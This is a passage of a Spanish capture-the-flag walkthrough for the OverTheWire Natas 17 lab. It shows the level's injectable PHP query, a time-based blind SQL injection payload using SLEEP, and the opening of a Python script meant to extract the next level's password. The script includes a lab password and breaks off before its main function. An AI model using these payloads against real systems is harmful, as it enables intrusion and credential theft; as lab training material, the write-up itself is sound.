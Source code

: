 ```php

mysqli_select_db($link, 'natas17');

$query = "SELECT * from users where username=\\"".$_REQUEST["username"]."\\"";

if(array_key_exists("debug", $_GET)) {

echo "Executing query: $query<br>";

}

$res = mysqli_query($link, $query);

if($res) {

if(mysqli_num_rows($res) > 0) {

//echo "This user exists.<br>";

} else {

//echo "This user doesn't exist.<br>";

}

} else {

//echo "Error in query.<br>";

}

mysqli_close($link);

} else {

?>
```

Probaremos a inyectar SQL basada en tiempo

" OR IF(username='natas18', SLEEP(5), 0) #

Si ponemos cualquier usuario, no tarda nada en cargar. Si probamos con natas18, tarda 5 segundos en responder. Por lo que el usuario “natas18” si existe

Usamos el script, parecido al anterior, pero para que la query sea como la anterior:

```php
import requests
import time
from requests.auth import HTTPBasicAuth

# Configuración
url = "<http://natas17.natas.labs.overthewire.org/>"  # URL del formulario de login
known_username = "natas18"  # Usuario para el cual queremos exfiltrar el password
extracted_password = ""

# Credenciales anteriores
username= "natas17"
password= "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

# Caracteres posibles en el password (puedes ajustar según sea necesario)
possible_chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Función para probar un carácter en una posición específica
```